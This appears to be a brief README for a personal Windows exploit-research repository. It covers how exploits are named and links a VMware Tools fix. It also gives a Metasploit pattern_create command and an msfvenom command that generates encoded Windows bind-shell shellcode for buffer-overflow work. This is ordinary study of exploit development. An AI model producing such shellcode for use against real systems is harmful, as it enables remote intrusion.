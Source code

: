 ## Windows research
If a CVE isn't provided, I'm using the EDB-ID where the vulnerable application originates from.
If the exploit doesn't have an EDB-ID, I'll title the application name.
Fixing VmWare's tools
https://nicostein.com/vmware-alias-manager-and-ticket-service-vgauthservice-fails-after-vmware-tools-upgrade/
Generating a pattern
/usr/share/metasploit-framework/tools/exploit/./pattern_create.rb -l 1000
Generating Shellcode
msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp LHOST=10.0.1.49 LPORT=1234 -e x86/shikata_ga_nai -b '\x00\x0A\x0D' -i 3 -f python